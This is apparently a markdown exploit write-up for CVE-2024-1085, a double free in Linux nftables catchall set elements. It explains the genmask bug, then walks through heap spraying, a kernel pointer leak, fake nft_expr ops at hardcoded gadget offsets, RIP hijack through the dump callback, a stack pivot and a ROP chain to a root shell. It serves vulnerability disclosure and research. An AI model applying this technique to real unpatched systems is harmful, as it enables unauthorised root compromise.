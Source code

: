 # Exploit detail about CVE-2024-1085
If you want to get some base information about CVE-2024-1085, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

### Genmask States of nftables
In nftable, developers use `genmask` in many objects to mark the state of the object. `genmask` has two important flags, which represent whether the object is available in the current task and the next batch of tasks.

```c
/*
 * Generic transaction helpers
 */

/* Check if this object is currently active. */
#define nft_is_active(__net, __obj)				\
	(((__obj)->genmask & nft_genmask_cur(__net)) == 0)

/* Check if this object is active in the next generation. */
#define nft_is_active_next(__net, __obj)			\
	(((__obj)->genmask & nft_genmask_next(__net)) == 0)

/* This object becomes active in the next generation. */
#define nft_activate_next(__net, __obj)				\
	(__obj)->genmask = nft_genmask_cur(__net)

/* This object becomes inactive in the next generation. */
#define nft_deactivate_next(__net, __obj)			\
        (__obj)->genmask = nft_genmask_next(__net)

/* After committing the ruleset, clear the stale generation bit. */
#define nft_clear(__net, __obj)					\
	(__obj)->genmask &= ~nft_genmask_next(__net)
#define nft_active_genmask(__obj, __genmask)			\
	!((__obj)->genmask & __genmask)
```

When an object is deleted, developers usually call `nft_deactivate_next` to modify its `genmask`. Similarly, when developers need to confirm which objects have not been deleted, they need to use `nft_is_active_next` to check to avoid double free and other problems.

## Cause anaylysis

In function `nft_setelem_catchall_deactivate`, it checks if an elem is active by this : 

```c
...
list_for_each_entry(catchall, &set->catchall_list, list) {
		ext = nft_set_elem_ext(set, catchall->elem);
		if (!nft_is_active(net, ext))
			continue;
...
```
but it should use function `nft_is_active_next`. This vulnerability makes it possible to free a catchall->elem twice.


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set A, and a catchall set element B in pipapo set A.
- Delete element B. 
- Delete element B again. 

By the way, we need to send the command of step 2 and step 3 together because we need to avoid set element B being actually released before our step 3.

## Exploit it

### Target object caches
Because the `setelem` object size we plan to use is between 0xc0-0x100, our target object cache is `kmalloc-256`

### Exploit detail
I exploit CVE-2024-1085 by following steps:

- 1. Create a pipapo set `A`, and a catchall set element `B` in it.
- 2. Trigger the vulnerability by following messages:
   
   ```c
    msg_list[0] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element first time
    msg_list[1] = del_table_msg(test_table);//kfree another heap to avoid crash
    msg_list[2] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element second time
    send_msg_list(socket, msg_list, 3);
   ```
   	After this we kfree the catchall set element `B` twice. This makes it possiable that we alloc the heap back twice.
- 3. Try to alloc the heap of the catchall set element `B` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table C` and `nft_table D`.
- 4. Delete `nft_table C`.
- 5. Spray heap to get the heap of `nft_table C->udata`
back. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` because I want to leak the `ops` pointer of the `nft_expr`.
- 6. Dump `nft_table D`. Now we leak `nft_last_ops`.
- 7. Create another set element `E`. Then dump the `nft_table D` again. We can get the pointer of the set element `E` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 8. Delete set element `E`. Fill the heap memory of set element `E` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 9. Delete `nft_table D`.
- 10. Fill the heap memory of `nft_table D ->udata` with fake `nft_expr` and ROP gadget.
- 11. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.
